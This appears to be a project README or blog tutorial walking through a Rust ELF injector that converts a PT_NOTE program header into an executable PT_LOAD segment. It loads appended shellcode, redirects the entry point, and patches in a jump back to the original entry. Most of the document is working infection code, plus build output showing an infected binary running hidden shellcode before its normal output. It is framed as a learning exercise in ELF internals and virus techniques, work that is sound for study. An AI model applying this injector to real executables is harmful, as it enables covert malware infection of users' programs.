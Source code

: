 # PT_NOTE to PT_LOAD ELF injector example

I read about a technique on the [SymbolCrash blog](https://www.symbolcrash.com/2019/03/27/pt_note-to-pt_load-injection-in-elf/) for injecting shellcode into an ELF binary by converting a `PT_NOTE` section in the Program Headers into a `PT_LOAD` section. I thought this sounded interesting and I didn't know a lot about ELF, so I took it as an opportunity to learn many new things at once.

For this project I created a small, very incomplete library I called [mental_elf](https://github.com/d3npa/mental-elf) which makes parsing and writing ELF and program headers easier. The code therein is very primitive and easy to understand, so I won't talk about it any more here. Let's focus on the infection technique instead :)

## Overview

As implied by the title, this infection technique involves converting an ELF's `PT_NOTE` program header into a `PT_LOAD` in order to run shellcode. The inputs to our program are therefore:

- an ELF file to infect
- some shellcode to inject

Note: this example does not support Position Independent Executables (PIE). I am disabling it by passing `-C relocation-model=static` to rustc when compiling my target program. 

Note (2): this technique does not work on Go binaries because the Go runtime makes use of and therefore requires a valid `PT_NOTE` section and header.

Here is a note about the Note Section in the [Official ELF Specification](http://www.skyfree.org/linux/references/ELF_Format.pdf):

> Note information is optional.  The presence of note information does not affect a program’s ABI conformance, provided the information does not affect the program’s execution behavior.  Otherwise, the program does not conform to the ABI and has undefined behavior

This infection technique requires a `PT_NOTE` section to be present in the ELF file, and involves modifying two structures: the ELF header and Program Headers (where the `PT_NOTE` program header itself resides). 

We can append shellcode to the end of the binary and jump there at the start by modifying the program entry point in the ELF header. To make sure the shellcode is loaded, we can change the otherwise unused `PT_NOTE` section to a `PT_LOAD` section which will make sure the shellcode is loaded at the address we enter.

## Shellcode

This example uses the Netwide ASseMbler (NASM) to prepare shellcode to inject, and so installing `nasm` is required to run this example. 

Note: Rust binaries seem to need `rdx` to be 0 on entry or they will crash during cleanup.

The shellcode needs to be patched so it can jump back to the host's original entry point after finishing its tasks. To make patching easier, I designed this shellcode so it would run top-to-bottom and run off the end of the file, which allows us to patch it by simply appending a jump instruction. In x86_64, the `jmp` parameter cannot take a 64bit address to jump to, so we must pass through the `rax` register to make arbitrary jumps. The rust snippet below patches a `shellcode` byte vector to append a jump to `entry_point`:

```rust
fn patch_jump(shellcode: &mut Vec<u8>, entry_point: u64) {
    // Store entry_point in rax
    shellcode.extend_from_slice(&[0x48u8, 0xb8u8]);
    shellcode.extend_from_slice(&entry_point.to_ne_bytes());
    // Jump to address in rax
    shellcode.extend_from_slice(&[0xffu8, 0xe0u8]);
}
```

With this, we have a piece of shellcode that can run at the start of the program and pass control back to the host's original entry point. 

## Infection

To ensure the shellcode runs and returns correctly, the ELF header and PT_NOTE program headers must be edited. The ELF header is where we tell the loader where to jump to start the program (entry point). The PT_NOTE header will be turned into a PT_LOAD header which loads the shellcode into virtual memory with the appropriate permissions.

The headers are read from the elf file using the mental_elf library:

```rust
// Parse ELF and program headers
let mut elf_header = mental_elf::read_elf64_header(&mut elf_fd)?;
let mut program_headers = mental_elf::read_elf64_program_headers(
    &mut elf_fd, 
    elf_header.e_phoff, 
    elf_header.e_phnum,
)?;
```

After loading the ELF file, the shellcode is patched to jump back to the ELF's original entry point:

```rust
// Patch the shellcode to jump to the original entry point after finishing
patch_jump(&mut shellcode, elf_header.e_entry);
```

The section loaded by `PT_LOAD` will be page-aligned, and the shellcode will not be loaded at a nice round address like `0xc00000000`. To make the coding experience easier, the offset of the shellcode in the file is used to derive the address in virtual memory the shellcode will end up. Below, we retrieve the offset of the shellcode by subtracting the shellcode length from the total file length (this snippet runs after appending the shellcode to the file). 

```rust
// Calculate offsets used to patch the ELF and program headers
let sc_len = shellcode.len() as u64;
let file_offset = elf_fd.metadata()?.len() - sc_len;
let memory_offset = 0xc00000000 + file_offset;
```

`memory_offset` will become the new ELF entry point.

```rust
// Patch the ELF header to start at the shellcode
elf_header.e_entry = memory_offset;
```

When we patch the `PT_NOTE` header, we need to write in all the details the loader needs to know so it can load the shellcode, including segment permissions, offsets, length etc.

```rust
// Look for a PT_NOTE section
for phdr in &mut program_headers {
    if phdr.p_type == PT_NOTE {
        // Convert to a PT_LOAD section with values to load shellcode
        println!("Found PT_NOTE section; converting to PT_LOAD");
        phdr.p_type = PT_LOAD;
        phdr.p_flags = PF_R | PF_X;
        phdr.p_offset = file_offset;
        phdr.p_vaddr = memory_offset;
        phdr.p_memsz += sc_len as u64;
        phdr.p_filesz += sc_len as u64;
        break;
    }
}
```

Lastly the changes to the headers are committed back into the ELF file.

```rust
// Commit changes to the program and ELF headers
mental_elf::write_elf64_program_headers(
    &mut elf_fd, 
    elf_header.e_phoff,
    elf_header.e_phnum,
    program_headers,
)?;
mental_elf::write_elf64_header(&mut elf_fd, elf_header)?;
```

After being infected, an ELF file's entry point will point to the virtual memory offset the shellcode is loaded to, as defined by our crafted `PT_LOAD` program header. Because the shellcode was patched with a jump instruction back to the original entry point, the program will run normally after the shellcode has run.

```
$ make
cd files && make && cd ..
make[1]: Entering directory '/.../files'
rustc -C opt-level=z -C debuginfo=0 -C relocation-model=static target.rs
nasm -o shellcode.o shellcode.s
make[1]: Leaving directory '/.../files'
cargo run --release files/target files/shellcode.o
   Compiling mental_elf v0.1.0 (https://github.com/d3npa/mental-elf#0355d2d3)
   Compiling ptnote-to-ptload-elf-injection v0.1.0 (/...)
    Finished release [optimized] target(s) in 1.15s
     Running `target/release/ptnote-to-ptload-elf-injection files/target files/shellcode.o`
Found PT_NOTE section; converting to PT_LOAD
echo 'Done! Run target with: `./files/target`'
Done! Run target with: `./files/target`
$ ./files/target
dont tell anyone im here
hello world!
$
```

## Conclusion

This was a very fun project where I learned so much about ELF, parsing binary structures in Rust, and viruses in general. Thanks to netspooky, sblip, and others at tmp.out for teaching me, helping me debug and motivating me to do this project! <3
